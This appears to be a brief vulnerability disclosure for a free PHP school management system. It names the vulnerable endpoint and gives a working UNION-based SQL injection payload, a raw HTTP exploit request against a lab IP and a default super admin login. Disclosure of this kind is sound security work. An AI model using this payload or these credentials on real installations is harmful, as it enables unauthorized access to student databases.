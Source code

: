 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_subject.php?id=

Vulnerability location: /school/model/get_subject.php?id=,id

[+] Payload: /school/model/get_subject.php?id=-15%20union%20select%201,database()--+ // Leak place ---> id

Current database name: std_db,length is 6


```sql
GET /school/model/get_subject.php?id=-15%20union%20select%201,database()--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171970719-4cdb9672-a7c7-4a1c-bb09-d356e392c4e1.png)

